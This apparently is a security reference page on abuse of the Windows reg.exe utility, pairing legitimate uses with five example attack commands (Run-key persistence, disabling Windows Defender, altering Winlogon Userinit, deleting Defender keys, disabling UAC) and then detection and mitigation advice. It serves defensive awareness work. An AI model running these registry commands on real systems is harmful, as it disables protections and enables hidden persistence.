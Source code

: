 # reg.exe
## What is it?
*```reg.exe``` is a **built-in Windows command-line utility** that allows users to manage the Windows registry. It can be used to view, add, modify, or delete registry keys and values from the command prompt.*

*Since it is a trusted system tool, security software may overlook its use, making it a valuable tool for attackers to persist, hide traces, or manipulate system configurations.*

## Legitimate Usage
- **Registry Configuration** → Modify system settings, such as hardware configurations, software settings, or user preferences.
- **Backup & Restore Registry** → Use ```reg.exe``` to export and import registry files for backup or recovery purposes.
- **Scripted Configuration Changes** → Apply registry changes in automated scripts or during the deployment of software.
- **Software Installation & Configuration** → Set application-specific registry values needed for proper functionality.

## How to abuse it
- **Persistence** → Attackers can add malicious registry keys to ensure that their payloads are executed at startup or after specific events.
- **Bypassing Security Controls** → Attackers can modify security-related registry values, such as UAC settings or AppLocker policies, to bypass detection or restrictions.
- **Hiding Malicious Activities** → Malicious users can delete or alter registry keys associated with security software or logging to avoid detection.
- **Privilege Escalation** → Modify registry values that control user permissions or elevate privileges to execute malicious code with higher privileges.

## Example attacks
### 1. Persistence via Registry Key Creation
*Attackers can create a registry entry in the `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` location, ensuring that their malware runs every time the user logs in.*

**Add Malicious Registry Key for Startup**

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Malware" /t REG_SZ /d "C:\path\to\malware.exe" /f
```

**Effect:**
- Adds the malicious executable to the **Startup** registry key, ensuring persistence across reboots.

### 2. Disabling Windows Defender via Registry Modification
*```reg.exe``` can be used to modify registry values that disable Windows Defender or alter its settings, allowing malware to operate undetected.*

**Disable Windows Defender Antivirus**

```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d 1 /f
```

**Effect:**
- Disables Windows Defender, making it easier for malicious software to run without interference.

### 3. Elevating Privileges via Registry Manipulation
*Attackers can use ```reg.exe``` to modify registry settings that control user rights and permissions, allowing privilege escalation.*

**Modify Registry for Privilege Escalation**

```
reg add "HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

**Effect:**
- Changes the **Userinit** registry key, causing the system to run ```cmd.exe``` on startup, which can be used for privilege escalation.

### 4. Hiding Malicious Files via Registry Key Removal
*By deleting registry keys associated with security software or logging, attackers can hide their tracks and avoid detection.*

**Remove Registry Keys for Evasion**

```
reg delete "HKLM\SOFTWARE\Microsoft\Windows Defender" /f
```

**Effect:**
- Removes registry entries related to Windows Defender, making it harder for the system to detect malicious activity.

### 5. Bypassing UAC via Registry Changes
*```reg.exe``` can modify registry keys related to **User Account Control (UAC)**, which may help bypass administrative restrictions.*

**Lower UAC Security Level**

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t REG_DWORD /d 0 /f
```

**Effect:**
- Disables **UAC** (User Account Control), allowing malicious programs to run with elevated privileges without triggering security prompts.

# Detection & Mitigation
## Detection Methods
**Monitor Registry Changes**
- **Event ID 4657 (Registry Value Modified)** → Detect suspicious registry modifications, especially those that involve security-related keys.
- **Watch for Malicious Registry Paths** → Monitor common persistence paths, such as **HKCU\Software\Microsoft\Windows\CurrentVersion\Run** and **HKLM\Software\Microsoft\Windows\CurrentVersion\Run**.
- **Look for Disabling of Security Controls** → Watch for changes to registry entries that disable antivirus software, Windows Defender, or UAC.

**Monitor Execution of ```reg.exe```**
- **Event ID 4688 (Process Creation)** → Monitor the execution of **reg.exe** for unexpected or unauthorized registry modifications.
- **Behavioral Analysis** → Look for command-line arguments that manipulate security settings or persistence-related registry keys.

## Mitigation Strategies
- **Restrict Access to ```reg.exe```** → Use application whitelisting (AppLocker, WDAC) to limit the execution of **reg.exe** to authorized users and administrators only.
- **Monitor & Audit Registry Changes** → Regularly audit registry changes, particularly for suspicious modifications related to startup processes or security settings.
- **Implement User Account Control (UAC)** → Enforce UAC settings to ensure that unauthorized changes to critical registry values cannot be made without administrative approval.
- **Use Endpoint Detection and Response (EDR)** → Deploy EDR tools that monitor for suspicious behavior, such as unexpected registry modifications or the execution of **reg.exe** with abnormal arguments.
